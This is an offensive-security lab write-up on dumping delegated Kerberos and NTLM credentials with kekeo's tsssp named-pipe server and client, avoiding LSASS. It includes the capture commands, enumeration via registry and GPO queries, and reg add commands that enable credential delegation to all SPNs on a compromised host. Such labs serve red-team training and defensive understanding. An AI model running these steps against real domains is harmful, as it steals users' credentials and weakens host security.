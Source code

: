 ```yaml
---
layout: post
title: "dumping delegated default kerberos and ntlm credentials without touching lsass"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /credential-access-and-credential-dumping/
---
```


# Dumping Delegated Default Kerberos and NTLM Credentials w/o Touching Lsass

This lab is related to dumping cached Kerberos and NTLM passwords without touching LSASS. This is possible due to Active Directory feature called Credentials Delegation.

## Credential Delegation

Credential Delegation is a feature that allows domain administartors to authorize certain machines or to be more precise - certain SPNs, to accept delegated passwords. In other words, this means that certain services on certain machines can be set to allow users to authenticate without the need to supply their credentials interactively - almost like a Single Sign On.

To illustrate - the below shows how a user spotless@offense attempts to access the termsrv/ws2.offense.local and is prompted to enter his credentials - this means credential delegation is not set for the termsrv (RDP) on ws02$ and therefore the machine ws02 does not accept delegated passwords, which results in a password prompt for the user.

{% hint style="info" %}
Default Password is a currently logged on user's password.
{% endhint %}

![](<../../.gitbook/assets/Annotation 2019-08-20 224950.png>)

If the Credentials Delegation was enabled as shown below:&#x20;

![](<../../.gitbook/assets/Annotation 2019-08-20 225941.png>)

...the machines that are running a termsrv (RDP) service would now be allowed to authenticate users who are delegating their credentials.&#x20;

Below shows how the same user spotless is attempting to connect to RDP on ws02 and gets authenticated immediately without being prompted for the password - this means that the user's credenentials were delegated and the termsrv/ws2.offense.local accepted them due to the GPO change we described earlier whereby Credential Delegation was enabled:

![](../../.gitbook/assets/rdp-password-delegation.gif)

## Dumping Kerberos Credentials

If credential delegation is set up, credentials can be dumped without touching lsass with a tool called kekeo.

Let's spin up a tsssp named pipe server where targets of whom the credentials we want to steal, will connect to, on the compromised workstation ws01 (running as SYSTEM):

{% code title="attacker@ws01.offense.local" %}
```
// needs to run as NT SYSTEM
tsssp::server
```
{% endcode %}

{% hint style="info" %}
Kekeo on ws01 must be running as NT\SYSTEM for this to work
{% endhint %}

Now, let's connect to the tsssp server on ws01 from the target computer ws02 (we want currently logged on user's from ws02 credentials to be stolen by being sent to the tsssp server on ws01 over the named pipe):

{% code title="attacker@ws02.offense.local" %}
```
tsssp::client /target:termsrv/ws01.offense.local /pipe:\\ws01.offense.local\pipe\kekeo_tsssp_endpoint
```
{% endcode %}

![](../../.gitbook/assets/password-delegation-password-dump-via-named-pipes.gif)

## Dumping NTLM Credentials

The same technique applies to NTLM authentication. For the technique to work with NTLM credentials, below needs to be enabled in AD in Computer Configuration > Policies > Administrative Templates > System > Credential Delegation:

![](<../../.gitbook/assets/image (156).png>)

Differently from dumping kerberos credentials, the NTLM delegated credential dumping attack can be performed locally on the target system - we only need two kekeo instances running as low privileged users, unlike with kerberos credential dumping where the tsssp server had to be running as SYSTEM.

Let's spin up the server on one console:

{% code title="attacker@ws02" %}
```
// running as ws02\spotless
tsssp::server
```
{% endcode %}

And connect to it from another console:

{% code title="attacker@ws02" %}
```
// running as ws02\spotless
tsssp::client /target:termsrv/ws02.offense.local
```
{% endcode %}

Below shows (left) a tsssp server is created on the ws02 system running under spotless user's context. On the right, another console running as ws02\spotless which is then connected to the `\\.\pipe\kekeo_tsssp_endpoint` named pipe, revealing user's `ws02\spotless` NTLM credentials in the console running tsssp server on the left:

![](<../../.gitbook/assets/image (155).png>)

## Enumerating Delegated Credentials Locally

Once on the box, we can check if credential delegation is turned on:

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation
```

Below shows what credential delegation is enabled on the system (represented with 0x1):

![](<../../.gitbook/assets/image (157).png>)

We can then check what SPNs accept delegated credentials:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials
```

Below shows that the box we have access to is allowed to delegate credentials to all termsrv SPNs - all RDP services:

![](<../../.gitbook/assets/image (158).png>)

## Enumerating Delegated Credentials via AD

```csharp
gpresult /h report.html
# or Get-GPOReport if you have access to AD admin tools
```

![](<../../.gitbook/assets/image (159).png>)

Additionally, we can use [Parse-Polfile](https://github.com/PowerShell/GPRegistryPolicyParser) to parse the registry.pol of the linked GPO. First of, let's find the GPO that is being applied to the user spotless:

```
Get-NetGPO -UserIdentity spotless
```

![](<../../.gitbook/assets/image (161).png>)

and then parse the policy file:

```
Parse-PolFile -Path "\\offense.local\sysvol\offense.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol"
```

![](<../../.gitbook/assets/image (160).png>)

## Enabling Credential Delegation

If you have admin rights on the compromised box, you can enable all credential delegation like so:

{% code title="attacker@target" %}
```csharp
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefaultCredentials /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefault /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials /v 1 /t REG_SZ /d "*"
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefCredentialsWhenNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefCredentialsWhenNTLMOnly /v 1 /t REG_SZ /d "*"

# delete all
reg delete HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /f
```
{% endcode %}

## References

{% embed url="https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/" %}

{% embed url="https://github.com/PowerShell/GPRegistryPolicyParser" %}
@spotheplanet
